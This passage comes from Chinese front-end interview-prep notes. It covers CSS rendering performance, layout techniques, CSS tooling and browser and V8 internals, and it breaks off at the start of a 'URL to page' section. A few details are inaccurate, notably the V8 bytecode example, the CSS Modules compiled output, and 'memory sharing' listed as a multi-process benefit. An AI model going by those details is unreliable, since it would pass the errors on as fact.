.box:hover {
  width: 200px;
  background: red;
}

/* animation：多帧动画 */
@keyframes slideIn {
  0%   { transform: translateX(-100%); opacity: 0; }
  50%  { transform: translateX(10px); opacity: 0.5; }
  100% { transform: translateX(0); opacity: 1; }
}
.slide {
  animation: slideIn 0.5s ease-out;
}
```

#### 12.2 CSS 动画性能差的原因

**性能差的 CSS 属性（触发布局/重绘）：**
- `width`, `height`
- `margin`, `padding`
- `top`, `left`, `right`, `bottom`
- `font-size`, `font-family`
- `border-width`, `border-color`
- `background`
- `color`

```
触发布局（reflow）→ 重新计算几何属性 → 重新绘制
                    ↑ 最昂贵
```

**动画性能好的 CSS 属性：**
- `transform`（translate, scale, rotate）
- `opacity`

```
触发合成（composite）→ 仅 GPU 合成，不触发布局/重绘
                        ↑ 最优
```

#### 12.3 transform 性能更好的原因

```
浏览器渲染流水线（Pipeline）：

1. JavaScript（JS 线程）
         ↓
2. Style（计算样式）
         ↓
3. Layout（计算几何/位置）  ← transform 不触发
         ↓
4. Paint（填充像素）        ← transform 不触发
         ↓
5. Composite（合成层）       ← transform 在此层操作
         ↓
6. 显示在屏幕上

transform → 只在 Composite 阶段处理
         → 不需要 Layout/Paint
         → 直接由 GPU 合成，操作合成层（compositor layer）

opacity   → 仅在 Composite 阶段处理
         → 同样高效
```

---

### 13. 回流（reflow）vs 重绘（repaint），如何减少回流

#### 13.1 渲染流水线

```
DOM Tree → Style → Layout → Paint → Composite
                      ↑        ↑
                   回流      重绘
                   (reflow)  (repaint)
                   (最重)    (中等)
                               ↓
                            Composite
                            (最轻)
```

- **回流（reflow）**：几何属性改变，元素大小/位置/布局重新计算
- **重绘（repaint）**：外观改变，但不影响几何属性（如 color, visibility, background）

**回流必定触发重绘，重绘不一定回流。**

#### 13.2 触发回流的操作

```javascript
// 读取布局属性（offset, scroll, client, getBoundingClientRect）
const width = el.offsetWidth;   // 触发回流
const height = el.scrollHeight; // 触发回流
el.clientTop;                   // 触发回流
el.getBoundingClientRect();     // 触发回流

// 修改布局相关属性
el.style.width = '200px';      // 触发回流
el.style.padding = '10px';     // 触发回流
el.style.margin = '20px';      // 触发回流
el.style.fontSize = '20px';    // 触发回流

// 添加/移除 DOM 元素
document.body.appendChild(child); // 触发回流

// 改变元素尺寸/内容
el.innerHTML = '新内容';         // 触发回流
```

#### 13.3 如何减少回流

**原则：读操作和写操作分离，批量写，动画用 transform**

```javascript
// ❌ 错误：交替读写，触发多次回流
el.style.width = el.offsetWidth + 10 + 'px';
el.style.height = el.offsetHeight + 10 + 'px';

// ✅ 正确：读操作集中，写操作集中
const width = el.offsetWidth;
const height = el.offsetHeight;
requestAnimationFrame(() => {
  el.style.transform = `translate(${width + 10}px, ${height + 10}px)`;
});
```

**CSS 优化策略：**
```css
/* 1. 动画使用 transform/opacity */
.animated {
  animation: move 1s ease;
}
@keyframes move {
  0%   { transform: translateX(0); }
  100% { transform: translateX(100px); }
}

/* 2. 使用 will-change 提前创建合成层 */
.animated {
  will-change: transform;
}

/* 3. 批量修改 DOM（离线操作） */
const el = document.getElementById('list');
el.style.display = 'none';        // 脱离渲染树
modifyDOM();
el.style.display = 'block';       // 重新渲染（只触发一次回流）

/* 4. 避免设置多项内联样式（用 class 替代） */
el.classList.add('large-size');   /* 好 */
el.style.width = '200px';          /* 差 */
```

---

### 14. transform 为什么不触发回流，GPU 加速原理，will-change

#### 14.1 transform 不触发回流的原因

**渲染流水线对比：**

| 阶段 | 说明 | 性能 |
|------|------|------|
| Layout | 回流，计算几何属性 | 昂贵 |
| Paint | 重绘，填充像素 | 中等 |
| Composite | GPU 合成 | 快速 |

**transform/opacity 优化：**

| 变化 | 流水线 | 说明 |
|------|--------|------|
| 普通属性变化 | DOM → Style → Layout → Paint → Composite | 触发回流/重绘 |
| transform/opacity 变化 | DOM → Style → [跳过Layout] → [跳过Paint] → Composite | 直接交给 GPU 处理 |

**原理：** 浏览器知道 transform/opacity 变化不影响几何属性，可以直接交给 GPU 处理，不触发回流/重绘。

#### 14.2 GPU 加速原理

**为什么 GPU 加速快？**
- GPU 是专门处理图像并行计算的硬件（数千个核心）
- CSS 渲染合成层时，GPU 直接在内存中处理像素，不经过 CPU
- 合成层独立于主线程，主线程 JS 阻塞不影响动画

**什么时候创建合成层（Compositor Layer）？**
```css
/* 1. 3D/透视变换 */
transform: translate3d(0, 0, 0);
transform: perspective(1000px);

/* 2. will-change 提示 */
will-change: transform;
will-change: opacity;

/* 3. video / canvas / iframe */

/* 4. 动画或过渡的 opacity / transform */

/* 5. 硬件加速别名 */
transform: translateZ(0);
```

**注意事项：合成层过多会导致内存占用过大。**

#### 14.3 will-change 作用

```css
/* 提前告诉浏览器元素的哪些属性会变化 */
.animated {
  will-change: transform;    /* 浏览器提前创建合成层 */
}

/* 动画结束后移除 */
.animated {
  will-change: auto; /* 动画结束后关闭 */
}

/* 不推荐的写法：全局应用 */
* { will-change: transform; } /* 内存爆炸 */
```

---

### 15. opacity vs visibility vs display 区别

| 属性 | 值 | 可见性 | 交互（点击等） | 渲染 | 过渡动画 |
|------|-----|-------|-------------|------|---------|
| `display: none` | - | 不可见 | 不存在 | **不渲染**，不占位 | 不可过渡 |
| `visibility: hidden` | - | 不可见 | 不可交互 | **渲染但不可见**，占位 | 可过渡 |
| `visibility: collapse` | - | 不可见（表格行/列塌陷） | 不可交互 | 渲染但行为特殊 | 可过渡 |
| `opacity: 0` | 0-1 | 不可见 | **可交互** | **渲染**，占位 | 可过渡 |

```css
/* display: none */
.hidden { display: none; }
/* → 不渲染（不占位，DOM 仍存在但不渲染） */
/* → 无法通过 transition 过渡 */

/* visibility: hidden */
.hidden { visibility: hidden; }
/* → 渲染但不可见（占位，opacity: 0 但可交互） */
/* → visibility 可过渡：hidden → visible */
/* → 子元素可用 visibility: visible 覆盖显示 */

/* opacity: 0 */
.hidden { opacity: 0; }
/* → 渲染且可见度为0（占位，仍可点击/交互！） */
/* → 可过渡：0 → 1 */

.hidden {
  opacity: 0;
  pointer-events: none; /* 结合 pointer-events 禁用交互 */
}
```

---

### 16. line-height 垂直居中原理，水平垂直居中方法

#### 16.1 line-height 垂直居中原理

**行盒结构：**

```
+------------------------------------------+
| line box（行盒）                          |
| 行盒高度 = line-height                    |
|                                          |
|   +------------------------------------+ |
|   | content area（内容区）              | |
|   | content area 高度 = font-size       | |
|   |                                    | |
|   | 文字在 content area 中按 baseline 对齐 | |
|   +------------------------------------+ |
+------------------------------------------+
```

**核心原理：** line-height（行高）上下 padding + content 共同撑起行盒高度。

```css
/* 单行文字垂直居中 */
.box {
  height: 40px;
  line-height: 40px; /* = height，文字在高度上居中 */
}

/* 多行文字居中：可用 flexbox 更灵活 */
.box {
  display: flex;
  align-items: center;
  height: 100px;
}
```

#### 16.2 水平居中方法

```css
/* 块级元素 */
.block-center {
  margin-left: auto;
  margin-right: auto;
  width: fit-content;
}

/* flexbox */
.flex-center-x {
  display: flex;
  justify-content: center;
}

/* grid */
.grid-center-x {
  display: grid;
  justify-content: center;
}

/* text-align */
.text-center {
  text-align: center;
}
```

#### 16.3 垂直居中方法

```css
/* flexbox（推荐，最简洁） */
.flex-center {
  display: flex;
  justify-content: center;
  align-items: center;
}

/* grid（推荐，最简洁） */
.grid-center {
  display: grid;
  place-items: center;
}

/* position + transform */
.pos-center > .child {
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate(-50%, -50%);
}

/* table-cell 模拟 */
.table-center {
  display: table;
}
.table-center > .child {
  display: table-cell;
  vertical-align: middle;
  text-align: center;
}

/* line-height（仅限单行文字） */
.line-height-center {
  height: 100px;
  line-height: 100px;
  text-align: center;
}
```

---

### 17. 多行省略，0.5px 实现，三角形/正方形/自适应高度/瀑布流

#### 17.1 多行文本省略

```css
/* 单行省略（常用） */
.single-line {
  overflow: hidden;
  text-overflow: ellipsis;
  white-space: nowrap;
}

/* 多行省略（CSS 实现，需 WebKit） */
.multi-line {
  display: -webkit-box;
  -webkit-box-orient: vertical;
  -webkit-line-clamp: 3; /* 显示3行 */
  overflow: hidden;
  text-overflow: ellipsis;
}
```

#### 17.2 0.5px 边框实现

```css
/* 方法1：transform: scaleY（最常用） */
.scale-border {
  position: relative;
}
.scale-border::after {
  content: '';
  position: absolute;
  bottom: 0;
  left: 0;
  width: 100%;
  height: 1px;
  background: #000;
  transform: scaleY(0.5);
}

/* 方法2：box-shadow */
.box-shadow-border {
  box-shadow: inset 0 -0.5px #000;
}

/* 方法3：渐变 */
.gradient-border {
  background:
    linear-gradient(to bottom, #000 50%, transparent 50%) bottom / 100% 1px no-repeat;
  background-position: 0 100%;
}
```

#### 17.3 CSS 图形实现

```css
/* 三角形：利用 border 对边等宽原理 */
.triangle-up {
  width: 0;
  height: 0;
  border-left: 50px solid transparent;
  border-right: 50px solid transparent;
  border-bottom: 100px solid red;
}

.triangle-down {
  width: 0;
  height: 0;
  border-left: 50px solid transparent;
  border-right: 50px solid transparent;
  border-top: 100px solid blue;
}

/* 正方形：利用 aspect-ratio */
.square {
  width: 50%;
  aspect-ratio: 1; /* 现代 CSS */
}

/* 自适应高度：视口高度 */
.full-height {
  height: 100vh;
  height: 100dvh; /* 动态视口高度（移动端地址栏变化时更新） */
}
```

#### 17.4 瀑布流布局

```css
/* 方式1：CSS columns（最简单） */
.waterfall {
  column-count: 3;
  column-gap: 10px;
}
.waterfall-item {
  break-inside: avoid;
  margin-bottom: 10px;
}

/* 方式2：grid + dense 流 */
.waterfall-grid {
  display: grid;
  grid-template-columns: repeat(3, 1fr);
  grid-auto-rows: 10px;
  grid-auto-flow: row dense;
}
.item:nth-child(1) { grid-row: span 20; }
.item:nth-child(2) { grid-row: span 15; }
.item:nth-child(3) { grid-row: span 25; }
```

---

### 18. 暗黑模式，prefers-color-scheme

#### 18.1 prefers-color-scheme 媒体查询

```css
/* 系统级暗黑模式检测 */
@media (prefers-color-scheme: dark) {
  :root {
    --bg-color: #121212;
    --text-color: #e0e0e0;
    --link-color: #8ab4f8;
  }
}

@media (prefers-color-scheme: light) {
  :root {
    --bg-color: #ffffff;
    --text-color: #000000;
    --link-color: #1a73e8;
  }
}

/* 使用 CSS 变量 */
body {
  background: var(--bg-color);
  color: var(--text-color);
}
```

#### 18.2 JS 检测

```javascript
const prefersDark = window.matchMedia('(prefers-color-scheme: dark)').matches;

// 监听变化
window.matchMedia('(prefers-color-scheme: dark)').addEventListener('change', (e) => {
  if (e.matches) {
    document.documentElement.setAttribute('data-theme', 'dark');
  } else {
    document.documentElement.setAttribute('data-theme', 'light');
  }
});
```

#### 18.3 HTML 手动切换

```html
<meta name="color-scheme" content="light dark">
```

```css
/* 手动切换：data-theme 属性 */
[data-theme="dark"] {
  --bg-color: #121212;
  --text-color: #e0e0e0;
}
[data-theme="light"] {
  --bg-color: #ffffff;
  --text-color: #000000;
}
```

---

### 19. CSS Modules 原理，scoped 原理，深度选择器

#### 19.1 CSS Modules

CSS Modules 是 CSS 的局部作用域方案，通过编译时转换实现类名唯一性。

```css
/* Button.module.css */
.button {
  padding: 8px 16px;
  background: blue;
}

.primary {
  background: #0066ff;
}
```

```javascript
import styles from './Button.module.css';

export function Button() {
  return (
    <button className={styles.button + ' ' + styles.primary}>
      Click
    </button>
  );
}

/* 编译后 HTML：*/
/* <button class="Button_button__3x7Kw Button_primary__3x7Kw">Click</button> */
```

**CSS Modules 原理：**
```
源文件：
.button { background: blue; }

编译后（webpack css-loader）：
.button { background: blue; }
.Button_button__3x7Kw { background: blue; }
/* hash 基于文件路径和类名生成，保证全局唯一 */
```

#### 19.2 Vue scoped 原理

```html
<style scoped>
.button {
  color: red;
}
</style>
```

```css
/* 编译后： */
.button[data-v-hash] {
  color: red;
}
```

**scoped CSS 原理：**
```
1. Vue 组件编译时，为每个组件生成一个唯一的 hash
2. 所有 CSS 选择器后加 [data-v-hash]
3. 模板中的元素自动添加 data-v-hash 属性
4. 结果：选择器只匹配本组件的元素
```

#### 19.3 深度选择器（穿透 scoped）

```css
/* Vue 中穿透 scoped */

/* 方法1：:deep() */
:deep(.external-class) {
  color: red;
}

/* 方法2：::v-deep（Vue2 专用） */
::v-deep .inner {
  color: red;
}

/* 方法3：:global()（Vue3 新语法） */
:global(.global-class) {
  color: blue;
}
```

---

### 20. CSS-in-JS，styled-components 原理，TailwindCSS 原理与原子化 CSS

#### 20.1 CSS-in-JS

CSS-in-JS 是在 JavaScript 中编写 CSS 样式的方案：

```javascript
// styled-components 方式
import styled from 'styled-components';

const Button = styled.button`
  padding: 8px 16px;
  border-radius: 4px;
  background: ${props => props.primary ? '#0066ff' : '#ccc'};
  color: white;
`;

// emotion 方式
import { css } from '@emotion/react';
const styles = css`padding: 8px 16px; background: blue;`;
```

#### 20.2 styled-components 原理

```javascript
/* 原理概述：
   1. 用模板字符串定义 CSS
   2. 运行时生成唯一的类名
   3. 通过 <style> 标签注入到 head
   4. 将类名绑定到组件上 */

function styled(tag) {
  return function(strings, ...values) {
    return function(props) {
      const css = strings.reduce((acc, str, i) => {
        return acc + str + (values[i] ? values[i](props) : '');
      }, '');
      const className = hash(css);
      injectStyle(`.${className}`, css);
      return createElement(tag, { className, ...props });
    };
  };
}
```

#### 20.3 TailwindCSS 原理与原子化 CSS

TailwindCSS 是原子化（utility-first）CSS 框架，通过组合小的工具类实现样式：

```html
<!-- 传统 CSS -->
<div class="card">
  <style>.card { padding: 24px; border-radius: 8px; background: white; box-shadow: 0 2px 8px rgba(0,0,0,0.1); }</style>
</div>

<!-- TailwindCSS -->
<div class="p-6 rounded-lg bg-white shadow-md">
```

**TailwindCSS 原理：**
```
1. 配置文件定义设计系统（颜色、间距等）
2. PurgeCSS 扫描源码，找出使用的类名
3. 生成只包含使用过的类的 CSS（约 10-100kb）
4. 生产构建：只打包实际使用的样式
```

**原子化 CSS 的优缺点：**

```
优点：
- 无需写自定义 CSS，快速开发
- 一致性好（基于设计系统）
- 样式复用性极高
- 便于维护（样式即文档）

缺点：
- HTML 标签变长（class="..."）
- 学习曲线（需记忆工具类名）
- 无类型安全（IDE 插件很重要）
```

#### 20.4 原子化 CSS 框架对比

| 框架 | 特点 | JIT | 流行度 |
|------|------|-----|--------|
| TailwindCSS | 功能完整，设计系统友好 | 是 | 高 |
| UnoCSS | 超快，按需生成，无预置主题 | 是 | 增长快 |
| WindiCSS | TailwindCSS 替代，启动更快 | 是 | 中 |
| Vanilla Extract | 类型安全，编译时 | 是 | 增长中 |

---

### 21. CSS 阻塞渲染，link vs @import，CSS 性能优化

#### 21.1 CSS 阻塞渲染原理

```
浏览器渲染流水线：

HTML 解析
    ↓
CSS 下载 + 解析（render-blocking）
    ↓
DOM Tree + CSSOM → Render Tree
    ↓
Layout（计算布局）
    ↓
Paint（绘制）
    ↓
Composite（合成）
    ↓
显示

CSS 是 render-blocking 资源：
→ 浏览器不会渲染任何内容，直到 CSSOM 构建完成
```

#### 21.2 link vs @import

```html
<!-- link（推荐）：并行下载，不阻塞 HTML 解析 -->
<link rel="stylesheet" href="style.css">

<!-- @import（不推荐）：串行下载，阻塞渲染 -->
<style>
  @import url("other.css");
  @import url("another.css");
</style>
```

**@import 加载顺序：** 串行！一个失败全失败！link 并行：所有 CSS 同时下载。

#### 21.3 CSS 性能优化

**减少 CSS 体积：**
```css
/* 1. CSS 压缩（cssnano / csso / clean-css） */

/* 2. 移除未使用的 CSS（PurgeCSS / UnCSS） */

/* 3. 提取关键 CSS，内联首屏样式 */

/* 4. 使用 CSS 变量，减少重复定义 */
:root {
  --primary: #0066ff;
  --spacing: 8px;
}
```

**减少渲染阻塞：**
```html
<!-- 1. Critical CSS 内联 -->
<head>
  <style>/* 首屏关键样式 */</style>
</head>

<!-- 2. 非关键 CSS 异步加载 -->
<link rel="stylesheet" href="non-critical.css"
      media="print" onload="this.media='all'">

<!-- 3. preload 关键资源 -->
<link rel="preload" href="font.woff2" as="font" crossorigin type="font/woff2">

<!-- 4. font-display 优化字体加载 -->
@font-face {
  font-family: 'MyFont';
  src: url('font.woff2') format('woff2');
  font-display: swap;
}
```

**减少选择器复杂度：**
```css
/* ❌ 复杂选择器 */
.header nav ul li a span { }

/* ✅ 简单选择器 */
.nav-link { }
```

---

### 22. CSS 难维护原因，BEM 命名规范

#### 22.1 CSS 难维护的常见原因

1. **全局作用域污染**：所有选择器在全局生效，容易冲突
2. **样式覆盖层叠复杂**：优先级混乱，修改一个样式影响多个地方
3. **选择器耦合**：CSS 依赖 HTML 结构，结构一变样式就乱
4. **重复样式**：相同样式在多处定义，维护困难
5. **无类型安全**：拼写错误静默失效

**解决方案：**
- CSS Modules（局部作用域）
- CSS-in-JS（组件级样式）
- BEM 命名（命名约定）
- Utility-First 框架（原子化）
- CSS 变量（主题一致性）

#### 22.2 BEM 命名规范

BEM = Block（块） + Element（元素） + Modifier（修饰符）

```
Block      → 独立的功能模块（最大粒度）
Element    → Block 的组成部分（用 __ 连接）
Modifier   → 状态/变体（用 -- 连接）
```

```css
/* Block：卡片组件 */
.card { }

/* Element：卡片内部元素 */
.card__header { }
.card__body { }
.card__title { }

/* Modifier：卡片变体 */
.card--featured { }
.card--dark { }

/* Element + Modifier */
.card__title--large { }
```

```html
<article class="card card--featured">
  <header class="card__header">
    <h2 class="card__title">标题</h2>
  </header>
  <div class="card__body">
    <p class="card__text">内容</p>
  </div>
  <footer class="card__footer">
    <button class="card__button card__button--primary">按钮</button>
  </footer>
</article>
```

**BEM 优点：**
- 类名自解释（命名即文档）
- 避免命名冲突
- 结构清晰，易维护
- 配合 CSS Modules 效果更好

---

### 23. PostCSS，Autoprefixer 原理，Sass/Less 区别，Sass mixin，CSS Houdini

#### 23.1 PostCSS

PostCSS 是一个用 JavaScript 插件转换 CSS 的工具（不是预处理器）：

```
CSS 输入 → PostCSS 解析器 → AST（抽象语法树） → 插件链 → 输出 CSS
```

**常见插件：**
- `autoprefixer`：自动添加浏览器前缀
- `postcss-preset-env`：将现代 CSS 转换为兼容性更好的版本
- `cssnano`：压缩优化 CSS
- `stylelint`：CSS 代码检查

#### 23.2 Autoprefixer 原理

```css
/* 输入 */
.flex {
  display: flex;
  user-select: none;
  transition: transform 0.3s;
}

/* Autoprefixer 输出（根据 browserslist） */
.flex {
  display: -webkit-box;
  display: -webkit-flex;
  display: -ms-flexbox;
  display: flex;
  -webkit-user-select: none;
  -ms-user-select: none;
  user-select: none;
  -webkit-transition: -webkit-transform 0.3s;
  transition: -webkit-transform 0.3s;
  transition: transform 0.3s;
}
```

**原理：**
```
1. Autoprefixer 读取 browserslist 配置（如 "> 1%", "last 2 versions"）
2. 解析 CSS，识别需要前缀的属性
3. 查询 Can I Use 数据库，确定哪些特性需要前缀
4. 在 CSS 声明前插入前缀版本
```

#### 23.3 Sass/Less 区别

| 特性 | Sass (SCSS) | Less |
|------|------------|------|
| 语法 | SCSS（CSS 超集，大括号） / 缩进语法 | 类 CSS 语法 |
| 变量符号 | `$var` | `@var` |
| 混合宏 | `@mixin` / `@include` | `.mixin()` |
| 继承 | `@extend` | 无（用 mixin 或占位符） |
| 条件语句 | `@if / @else` | `.when`（有限） |
| 循环 | `@for / @each / @while` | 无原生循环 |
| 编译 | Dart Sass / LibSass | JS（lessc） |

```scss
/* Sass/SCSS */
$primary: #0066ff;
$spacing: 8px;

@mixin flex-center {
  display: flex;
  justify-content: center;
  align-items: center;
}

.container {
  padding: $spacing;
  @include flex-center;

  &__item {
    margin: $spacing / 2;
  }

  &:hover {
    background: darken($primary, 10%);
  }
}

/* 继承 */
.error {
  color: red;
  padding: 12px;
}
.error-box {
  @extend .error;
  border: 1px solid red;
}
```

```less
/* Less */
@primary: #0066ff;
@spacing: 8px;

.flex-center() {
  display: flex;
  justify-content: center;
  align-items: center;
}

.container {
  padding: @spacing;
  .flex-center();

  &__item {
    margin: @spacing / 2;
  }

  &:hover {
    background: fade(@primary, 80%);
  }
}
```

#### 23.4 Sass Mixin

```scss
/* 简单 mixin */
@mixin flex-center {
  display: flex;
  justify-content: center;
  align-items: center;
}

/* 带参数的 mixin */
@mixin rounded($radius: 4px) {
  border-radius: $radius;
}

/* 多参数 */
@mixin box-shadow($x, $y, $blur, $color) {
  box-shadow: $x $y $blur $color;
}

/* 可变参数 */
@mixin transform($values...) {
  transform: $values;
}

/* 条件 mixin */
@mixin respond-to($breakpoint) {
  @if $breakpoint == 'mobile' {
    @media (max-width: 576px) { @content; }
  } @else if $breakpoint == 'tablet' {
    @media (max-width: 768px) { @content; }
  }
}

.sidebar {
  @include respond-to('tablet') {
    display: none;
  }
}
```

#### 23.5 CSS Houdini

CSS Houdini 是一组底层 API，允许开发者介入浏览器的 CSS 引擎：

```javascript
// 1. Paint Worklet：自定义绘制
registerPaint('my-pattern', class {
  static get inputProperties() { return ['--my-color']; }
  paint(ctx, size, props) {
    ctx.fillStyle = props.get('--my-color');
    ctx.fillRect(0, 0, size.width, size.height);
  }
});
```

```css
/* 使用 */
.pattern {
  background: paint(my-pattern);
  --my-color: red;
}
```

**Houdini 主要 API：**
- **Paint API**：自定义背景、边框等绘制逻辑
- **Layout API**：自定义布局算法（如 masonry）
- **Animation Worklet**：与主线程分离的高性能动画
- **Properties & Values API**：注册自定义 CSS 属性（带类型和初始值）
- **Typed OM**：类型化 CSS 对象模型（替代字符串拼接）

---

*（待续：第三章 JavaScript 超高频八股）*

---

## Chapter 5: 浏览器原理终极题库

### 5.1 浏览器多进程架构

#### 架构图

```
+------------------------------------------------------------------+
|                        浏览器主进程 (Browser Process)             |
|  +------------+  +-------------+  +-----------+  +------------+ |
|  | UI线程     |  | 网络线程     |  | 存储线程   |  | 插件线程   | |
|  | (地址栏/    |  | (网络请求    |  | (读写      |  | (加载和运行| |
|  |  前进后退)  |  |  管理)      |  |  localStorage|  |  浏览器插件| |
|  +------------+  +-------------+  +-----------+  +------------+ |
+------------------------------------------------------------------+
              |              |              |              |
    +---------+---+    +-----+----+   +----+----+   +-----+-----+
    | 渲染进程 1  |    | 渲染进程 2  |   | 渲染进程 3  |   | GPU进程  |
    | (Tab 1)   |    | (Tab 2)   |   | (Tab 3)   |   |        |
    | JS引擎    |    | JS引擎    |   | JS引擎    |   | GPU合成  |
    | 渲染引擎   |    | 渲染引擎   |   | 渲染引擎   |   |        |
    | 事件循环   |    | 事件循环   |    | 事件循环   |   |        |
    +-----------+    +-----------+   +-----------+   +----------+
```

#### 各进程职责

| 进程 | 职责 | 是否多实例 |
|------|------|----------|
| 浏览器主进程 | 地址栏、书签、前进后退、UI绘制、网络请求 | 唯一 |
| 渲染进程 | HTML/CSS解析、JS执行、页面渲染、事件处理 | 每个Tab一个 |
| GPU进程 | CSS动画、3D变换、GPU合成 | 可多个(Chrome 77+) |
| 网络进程 | DNS、TCP、TLS、HTTP请求 | 唯一(Chromium) |
| 插件进程 | PDF、Flash等插件 | 按需创建 |

#### 渲染进程内部结构

```
渲染进程
+------------------------------------------------------------------+
|  主线程 (Main Thread)                                             |
|  +---------+ +---------+ +---------+ +---------+ +------------+  |
|  | HTML    | | CSS     | | DOM     | | Layout  | | Paint     |  |
|  | Parser  | | Parser  | | Tree    | | Tree    | | (Layer)   |  |
|  +---------+ +---------+ +---------+ +---------+ +------------+  |
|                                                                   |
|  +------------+  +-----------+  +------------+  +--------------+  |
|  | JavaScript |  | Style     |  | Composite  |  | 事件分发器   |  |
|  | Engine     |  | Calculator|  | 器          |  | (Hit Test)  |  |
|  | (V8)       |  | (Style)   |  |            |  |              |  |
|  +------------+  +-----------+  +------------+  +--------------+  |
|                                                                   |
|  +--------------------------------------------------------------+ |
|  | 预扫描器 (Preload Scanner) — 不阻塞解析，快速扫描资源链接     | |
|  +--------------------------------------------------------------+ |
+------------------------------------------------------------------+
|  合成线程 (Compositor Thread)                                     |
|  +-------------+  +-------------+  +------------+                 |
|  | 合成层管理   |  | 光栅化调度   |  | 帧提交      |                 |
|  +-------------+  +-------------+  +------------+                 |
+------------------------------------------------------------------+
|  工作线程池 (Worker Thread Pool)                                  |
|  +----------+  +----------+  +----------+                          |
|  | Web Worker|  | Service |  | Worklet  |                          |
|  |           |  | Worker  |  | (Paint/  |                          |
|  |           |  |          |  | Layout)  |                          |
|  +----------+  +----------+  +----------+                          |
+------------------------------------------------------------------+
```

---

### 5.2 为什么浏览器是多进程

**单进程架构的问题：**

```javascript
// 问题1: 一个Tab崩溃导致整个浏览器崩溃
// 问题2: JS死循环阻塞UI线程，无法响应用户
// 问题3: 恶意网页可以访问其他Tab的数据
// 问题4: 内存泄漏影响整个浏览器
```

**多进程的优势：**

1. **隔离性**: 每个Tab独立渲染进程，一个崩溃不影响其他
2. **安全性**: 渲染进程运行在沙箱中，无法直接访问文件系统
3. **流畅性**: JS死循环只影响当前Tab
4. **内存共享**: 不同域的渲染进程之间无法互相访问内存

**渲染进程是什么：**
渲染进程是浏览器中负责解析和渲染网页的独立进程，每个浏览器Tab都有一个独立的渲染进程。它包含V8引擎（执行JS）、Blink渲染引擎（解析HTML/CSS）、事件循环、预扫描器等组件。

---

### 5.3 沙箱与 Site Isolation

#### 沙箱原理

```
用户态空间
+---------------------------+  +---------------------------+
|     渲染进程 A (沙箱内)      |  |     渲染进程 B (沙箱内)      |
|  无法访问:                 |  |  无法访问:                 |
|  - 文件系统                |  |  - 文件系统                |
|  - GPU设备                |  |  - GPU设备                 |
|  - 进程间直接通信           |  |  - 进程间直接通信           |
|  - 摄像头/麦克风(未授权)     |  |  - 摄像头/麦克风(未授权)     |
+---------------------------+  +---------------------------+
              |                            |
              v                            v
+---------------------------------------------------------------+
|                     浏览器主进程 (特权进程)                    |
|   网络请求 | 文件系统访问 | 密码管理 | 证书验证 | GPU命令        |
+---------------------------------------------------------------+
```

#### Site Isolation（站点隔离）

Site Isolation 是 Chrome 2018年引入的安全机制，确保**不同站点的页面**运行在**不同的渲染进程**中。

```
无 Site Isolation:
渲染进程X:
  +--- iframe: a.example.com (子资源)
  +--- iframe: b.example.com (子资源)
  → 同进程，a.com 的 JS 可以通过 Spectre 侧信道读取 b.com 的数据

有 Site Isolation:
渲染进程A: a.example.com 主页面 + a.example.com 子iframe
渲染进程B: b.example.com 主页面 + b.example.com 子iframe
渲染进程C: cdn.example.com 子资源 (img/css/js)
→ 不同进程，Spectre 攻击面大幅缩小
```

**关键：跨Site的iframe一定运行在不同进程中**，即使主框架相同。

---

### 5.4 V8 引擎为什么快：JIT 编译体系

#### V8 架构全景

```
+------------------------------------------------------------------+
|                         V8 引擎                                   |
|                                                                  |
|  +----------------+     +----------------+     +--------------+ |
|  |   Parser       | --> |    AST         | --> |  Ignition    | |
|  | (解析器)        |     |  (抽象语法树)   |     |  (字节码解释器)| |
|  +----------------+     +----------------+     +--------------+ |
|                                                           |      |
|                                              +------------+--------+
|                                              |   TurboFan       |
|                                              | (优化 JIT 编译器)  |
|                                              +-------------------+
|                                                                  |
|  +----------------+  +----------------+  +--------------------+  |
|  |  Hidden Class  |  |  Inline Cache  |  |  Garbage Collector |  |
|  |  (隐藏类)       |  |  (内联缓存)    |  |  (垃圾回收器)        |  |
|  +----------------+  +----------------+  +--------------------+  |
+------------------------------------------------------------------+
```

#### 编译流程

| 步骤 | 过程 | 说明 |
|------|------|------|
| Step 1 | Scanner -> Token 流 | 词法分析，生成 Token 序列 |
| Step 2 | Parser -> AST | 语法分析，构建抽象语法树 |
| Step 3 | Ignition -> 字节码 | 解释器执行，生成字节码 |
| Step 4 | TurboFan 优化 | 热代码（调用1000次+）触发 JIT 优化编译 |

**字节码示例：**
```javascript
function add(a, b) { return a + b; }
// LdaNamedProperty a0, [0]  // 加载 a
// Star r1                     // 存到 r1
// LdaNamedProperty a1, [1]   // 加载 b
// Add r1                      // 相加
// Return                      // 返回
```

**TurboFan 优化：**
- 生成优化机器码，使用 SSA（静态单赋值）
- 类型专门化：若 a,b 始终是整数，优化为快速整数加法

#### Hidden Class（隐藏类）

```javascript
// JavaScript 是动态类型语言，V8 用 Hidden Class 模拟静态结构
function Point(x, y) {
  this.x = x;
  this.y = y;
}

var p1 = new Point(1, 2);  // V8 创建 Hidden Class C0 -> C1 -> C2
var p2 = new Point(3, 4);  // p2 和 p1 共享 Hidden Class 链 (C0->C1->C2)

//  Hidden Class 链:
//  C0 (创建时，空对象)
//    x 属性 -> C1
//    y 属性 -> C2
//  C1 (有 x)
//    y 属性 -> C2
//  C2 (有 x,y)

// 性能陷阱：动态添加属性导致 Hidden Class 分叉
var p3 = new Point(5, 6);
p3.z = 7;  // 差劲！创建新的 Hidden Class C3，性能下降
// 正确做法：构造函数中一次性声明所有属性
```

#### Inline Cache（内联缓存）

```javascript
function getX(obj) {
  return obj.x;  // 每次调用，V8 记录 obj 的 Hidden Class
}

// 第1次调用: obj 的 Hidden Class 是 C2
// V8 在调用点记录: "C2 的 x 在 offset 16"

// 第2-N次调用: 如果 Hidden Class 仍是 C2，直接用记录的 offset 读取
// 不需要查表，时间复杂度 O(1) -> 接近静态语言性能

// 第N+1次调用: Hidden Class 变化了，缓存失效
// V8 记录多个 Hidden Class 的信息 (Monomorphic -> Polymorphic)
// 如果太多不同 Hidden Class，回退到慢速查表 (Megamorphic)
```

#### V8 快的原因总结

1. **JIT 混合编译**: 解释执行快速启动，热代码即时优化
2. **TurboFan 优化编译器**: 生成高度优化的机器码
3. **Hidden Class**: 模拟静态类型，属性访问 O(1)
4. **Inline Cache**: 缓存类型信息，避免重复查表
5. **Garbage Collector**: 分代回收（新生代/老生代），减少停顿
6. **字节码**: Ignition 字节码比机器码更紧凑，提升缓存命中率

---

### 5.5 浏览器输入 URL 到页面展示：完整 14 步

| 步骤 | 说明 |
|------|------|
| **Step 1** | URL 解析：地址栏判断是搜索词还是 URL，若无协议前缀自动补全 https:// |
